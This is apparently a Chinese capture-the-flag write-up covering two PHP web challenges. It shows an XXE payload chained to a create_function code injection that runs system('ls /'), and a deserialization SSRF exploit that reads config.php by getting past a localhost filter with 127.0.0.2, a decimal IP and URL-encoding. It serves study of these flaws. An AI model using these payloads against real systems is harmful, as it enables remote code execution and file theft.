



都是队伍里面师傅做出来的，我跟着复现一波思路Orz

# BadInjection

存在一个文件下载，顺藤摸瓜依次下载到index.php，Routers.php，Custom.php，Admin.php。

查看Custom.php：

```php
<?php
class Custom extends Controller{
  public static function Test($string){
      $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
      $test = $root->name;
      echo $test;
  }
}
?>

```

其存在XXE:



接着再看Admin.php：

```php
<?php

class Admin extends Controller{
  public static function sort($url,$order){
    $uri = parse_url($url);
    $file = file_get_contents($url);
    $dom = new DOMDocument();
    $dom->loadXML($file,LIBXML_NOENT | LIBXML_DTDLOAD);
    $xml = simplexml_import_dom($dom);
    if($xml){
     //echo count($xml->channel->item);
     //var_dump($xml->channel->item->link);
     $data = [];
     for($i=0;$i<count($xml->channel->item);$i++){
       //echo $uri['scheme'].$uri['host'].$xml->channel->item[$i]->link."\n";
       $data[] = new Url($i,$uri['scheme'].'://'.$uri['host'].$xml->channel->item[$i]->link);
       //$data[$i] = $uri['scheme'].$uri['host'].$xml->channel->item[$i]->link;
     }
     //var_dump($data);
     usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
     echo '<div class="ui list">';
     foreach($data as $dt) {

       $html = '<div class="item">';
       $html .= ''.$dt->id.' - ';
       $html .= ' <a href="'.$dt->link.'">'.$dt->link.'</a>';
       $html .= '</div>';
     }
     $html .= "</div>";
     echo $html;
    }else{
//...
```

Lz1y师傅提示create_function存在注入，前面url给一个rss的订阅源，后面的$order就是注入点：

```
http://localhost/admin?rss=http://anemone.top/atom.xml&order=link);}system("ls /");//
```

从Routers.php可以知道admin.php只能localhost访问：

```php
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
});
```

只能用xxe打内网了order字段需要url编码:

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ENTITY xxe SYSTEM "http://localhost/admin?rss=http://anemone.top/atom.xml&order=%6c%69%6e%6b%29%3b%7d%73%79%73%74%65%6d%28%22%6c%73%22%29%3b%2f%2f" >]>
<root>
<name>&xxe;</name>
</root>
```

列出目录成功：

得到flag：



# Vice

一个反序列化打内网的题：

```php
<?php
//require_once 'config.php';

class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;

  function __construct($method,$url){
    $this->method = $method;
    $this->url = $url;
  }

  function doit(){
    $this->host = @parse_url($this->url)['host'];
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      echo $result;
    }else{
      die(":)");
    }
  }
  function __destruct(){
    if(in_array($this->method,array("doit"))){

      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }
}

// if(isset($_GET["gg"])) {
    // @unserialize($_GET["gg"]);
// } else {
    // highlight_file(__FILE__);
// }
$shit=new SHITS("doit", "http://localhost:991/");
$ser=serialize($shit);
echo urlencode($ser);
```

思路是使用"127.0.0.2"绕过"127.0.0.1"，使用十进制的ip代替点分的ip格式绕过"."，使用urlencode绕过其他的符号：

```php
<?php
class SHITS{
  private $url;
  private $method;

  function __construct(){
    $this->method = "doit";
    $this->url = "file://2130706434/var/www/html/config%2ephp";
  }
}
$a = new SHITS();
echo urlencode(serialize($a));
?>
```

